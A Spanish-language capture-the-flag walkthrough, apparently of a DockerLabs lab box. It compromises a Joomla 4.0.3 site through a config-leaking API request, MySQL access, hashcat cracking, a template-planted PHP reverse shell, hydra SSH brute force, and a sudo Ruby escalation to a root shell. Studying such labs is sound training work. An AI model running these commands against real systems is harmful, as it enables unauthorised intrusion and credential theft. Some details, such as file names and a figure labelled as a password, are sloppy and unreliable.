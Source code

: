 nmap: 22,80 3306

![image](https://github.com/user-attachments/assets/127b255b-eead-405d-ae0f-217aa3fc6a6b)

---

en la pagina principal hay un apache2 ubuntu, nada interesante tampoco en el código fuente

hacemos un gobuster:

       - # gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,html,txt -k

y nos da:

![image](https://github.com/user-attachments/assets/c5162c38-f072-4037-a84a-e6493cb0bd95)

entramos y tenemos pagina

![image](https://github.com/user-attachments/assets/962bf906-35fe-4292-8422-d8fd1704ad92)

en la pagina encontré esto interesante

![image](https://github.com/user-attachments/assets/5c7ed55c-e58f-4781-8a1a-d152f4d59ceb)

*buscar posible explotación:  Joomla 4.0.3*

> exploit encontrado: https://vulncheck.com/blog/joomla-for-rce

![image](https://github.com/user-attachments/assets/50675612-80c8-4071-b29a-581309090f31)

utilizamos joomscan (JoomScan es una herramienta de escaneo de vulnerabilidades diseñada específicamente para aplicaciones web basadas en Joomla. Sirve para identificar posibles vulnerabilidades y debilidades en sitios web que utilizan este popular sistema de gestión de contenido (CMS):

       - joomscan -u http://172.17.0.2/wordpress/

nos da:

![[joomscan.png]]

entramos a los dos de robots.txt y administrador

![[robots.png]]

![[dockerlabs/dificil/vulnerame/admin.png]]

buscando también me llamo la atención esto

![[joomla version.png]]

hasta que encontré este comando

     curl -v http://172.17.0.2/wordpress/api/index.php/v1/config/application?public=true

y me dio las credenciales

![[usuarios.png]]


usuario: joomla_user
contraseña: vuln

probé en el login que teníamos en administrator, pero no funciono así que probé con la base de datos  


revisamos una posible base de datos con los usuarios encontrados:

      - mysql -h 172.17.0.2 -u joomla_user -pvuln

entramos a "mysql none":

     show databases; 

![[database.png]]

    use joomla_db
    show tables

![[show1.png]]


    select * from ffsnq_users;

nos da una contraseña encriptada:

![[pass1.png]]


utilizamos: https://hashes.com/en/decrypt/hash

       - $2y$10$UVmUci/wKgu7LFir7KIzP.NDup3lYDUxPzz7WZryvEYVdUjUVhou.
       - contraseña: bcrypt

creamos un archivo con la contraseña encriptada llamado "hash.txt"

en el terminal:
      
    hashcat -m 3200 hast.txt /usr/share/wordlists/rockyou.txt
    
nos da otra contraseña: 14344392
también nos da posible contraseña: tequieromucho

credenciales para admin:

      - firstatack
      - tequieromucho

vamos al login e ingresamos

![[dockerlabs/dificil/vulnerame/panel1.png]]

luego buscando en la pagina como admin vamos a:

> system > site templates > click en la pagina > index.php y cargamos un código php 

para conectarnos: https://github.com/pentestmonkey/php-reverse-shell
cambiamos IP y puerto: lo guardamos y en otra pestaña abrimos con la IP de la pagina mientras tenemos en escucha nuestro puerto 443, y entramos.
![[dockerlabs/dificil/vulnerame/conexion.png]]

luego de cargar en index.php la reverse la cargamos en el URL con el terminal en escucha

> http://172.17.0.2/wordpress/index.php?cmd=cat%20/etc/passwd

hacemos tratamiento de stty y buscamos como escalar.

dentro hay dos usuarios: guadalupe e ignacio y hacemos un ataque de fuerza bruta:

     hydra -l ignacio -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

     hydra -l guadalupe -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

![[dockerlabs/dificil/vulnerame/hydra.png]]

y tenemos la contraseña de ambos usuarios. con el que podemos escalar es con ignacio

![[dockerlabs/dificil/vulnerame/sudo -l.png]]

ya dentro del usuario Ignacio podemos ejecutar los "nano" así que modificamos el archivo "saludos.rb": 


      sudo /usr/bin/saludos.rb

         - exec "/bin/sh"
         - system "/bin/sh"

ejecutamos 

     sudo /usr/bin/ruby /usr/bin/saludos.rb

![[dockerlabs/dificil/vulnerame/root.png]]

y somos root! 
